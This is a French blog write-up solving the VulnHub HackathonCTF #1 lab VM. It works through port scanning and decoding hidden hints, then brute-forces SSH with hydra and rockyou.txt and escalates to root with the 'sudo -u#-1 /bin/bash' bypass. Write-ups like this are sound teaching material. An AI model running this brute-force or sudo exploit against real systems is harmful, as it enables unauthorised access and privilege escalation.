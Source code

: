 ```yaml
---
title: "Solution du CTF HackathonCTF #1 de VulnHub"
tags: [CTF, VulnHub]
---
```


[HackathonCTF #1](https://vulnhub.com/entry/hackathonctf-1,591/) est un CTF mis en ligne en octobre 2020 sur *VulnHub*. Il se compose d'une première partie nécessitant de l'énumération, un peu comme un jeu de piste puis une escalade de privilèges via un exploit. Rien de bien compliqué.

## Puzzle

```
Nmap scan report for 192.168.56.201
Host is up (0.00018s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
23/tcp   open  telnet  Linux telnetd
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-enum: 
|_  /robots.txt: Robots file
7223/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
```

On obtient une erreur 404 si on demande la page d'index du serveur web. Le fichier `robots.txt` retourne quant à lui 3 paths et un code base64 :

```
user-agent: *
Disallow: /ctf

user-agent: *
Disallow: /ftc

user-agent: *
Disallow: /sudo

c3NoLWJydXRlZm9yY2Utc3Vkb2l0Cg==
```

Ce dernier se décode en `ssh-bruteforce-sudoit`.

Les URLs mentionnées ne fonctionnent pas, mais en énumérant (avec `feroxbuster`) le serveur pour les extensions php et html on comprend qu'il faut rajouter le suffixe `.html` :

```
200        0l        0w        0c http://192.168.56.201/ctf.html
200       24l       26w      154c http://192.168.56.201/ftc.html
```

Le fichier `ftc.html` contient les lignes suivantes :

```html
<h1>what are you looking for??????</h1>

</body>
<!-- #117
#115
#101
#32
#114
#111
#99
#107
#121
#111
#117
#46
#116
#120
#116
-->
```

Vraisemblablement le code décimal pour les caractères d'un message. Je vais utiliser Python pour décoder :

```python
>>> data = """#117
... #115
... #101
... #32
... #114
... #111
... #99
... #107
... #121
... #111
... #117
... #46
... #116
... #120
... #116"""
>>> "".join([chr(int(s[1:])) for s in  data.splitlines()])
'use rockyou.txt'
```

Dernière étape de notre recherche, le fichier `sudo.html` qui contient la mention `#uname : test`

On s'applique donc à bruteforcer l'utilisateur `test` avec la wordlist `rockyou` :

```console
$ hydra -l test -P wordlists/rockyou.txt ssh://192.168.56.201:7223
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ssh://192.168.56.201:7223/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344227 to do in 1532:31h, 14 active
[STATUS] 115.00 tries/min, 345 tries in 00:03h, 14344038 to do in 2078:51h, 14 active
[7223][ssh] host: 192.168.56.201   login: test   password: jordan23
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

## Subzero

L'utilisateur peut exécuter des commandes en tant que n'importe quel utilisateur sauf root.

```console
test@ctf:~$ sudo -l
[sudo] password for test: 
Matching Defaults entries for test on ctf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User test may run the following commands on ctf:
    (ALL, !root) ALL
```

J'ai d'abord obtenu un shell pour un utilisateur nommé `ctf` sur le système. Il y a quelques entrées dans son historique bash :

```bash
cd tmp/
ls
cd ..
cd media/
ls
cd floppy
ls
sudo mkdir media
ls
cd media/
sudo mkdir imp
ls
cd imp/
sudo password
nano sudo password
sudo nano pass
echo 'CTFdfrGHYjUsSsKK@12345' | base64
echo 'CTFdfrGHYjUsSsKK@12345' | base64 >pass.txt
sudo echo 'CTFdfrGHYjUsSsKK@12345' | base64 >pass.txt
```

Je retrouve bien le fichier `pass.txt` sur le disque, mais le mot de passe n'est accepté ni pou `ctf` ni pour `root`...

J'ai aussi cherché avec la commande `find / -type f -not -user root -ls 2> /dev/null | grep -v /proc` si certains fichiers faisaient partie d'un groupe particulier et pouvaient me permettrait d'élever mes privilèges, mais sans succès.

Finalement dans l'historique bash de l'utilisateur `test` on pouvait voir cette commande :

```bash
sudo -u#-1 /bin/bash
```

Elle fait référence à une faille de type integer overflow dans sudo : [sudo 1.8.27 - Security Bypass - Linux local Exploit](https://www.exploit-db.com/exploits/47502)

```console
test@ctf:~$ sudo -u#-1 /bin/bash
root@ctf:~# id
uid=0(root) gid=0(root) groups=0(root)
```

C'était bien la marche à suivre.
